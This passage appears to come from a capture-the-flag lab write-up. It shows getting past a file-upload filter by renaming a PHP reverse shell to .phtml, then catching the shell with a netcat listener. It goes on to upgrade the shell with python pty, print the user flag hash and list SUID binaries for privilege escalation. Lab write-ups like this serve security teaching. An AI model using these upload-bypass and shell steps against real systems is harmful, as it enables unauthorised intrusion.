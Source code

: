 # By uploading our revshell with '.php' extension doesn't work, so we tried 
```
.phtml
```
## and we sucessfully uploaded our reverseshell, Its time to get our shell by using Netcat
```
nc -lnvp 4444
```
## Then by selecting the revshell.phtml we got the shell

# Lets stabalize the shell
```
python -c "import pty; pty.spawn('/bin/bash')"
```

# BOOOOOOOOOOOMMMMMMMMM !!!!!!!!!  , We got the user.txt
```
8bd7992fbe8a6ad22a63361004cfcedb
```

# Its time to escalate our privelages, So by using the cmd 
```
find / -perm /4000 2> /dev/null
```

## We got 
```
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
## From here we get to know our next question answer i.e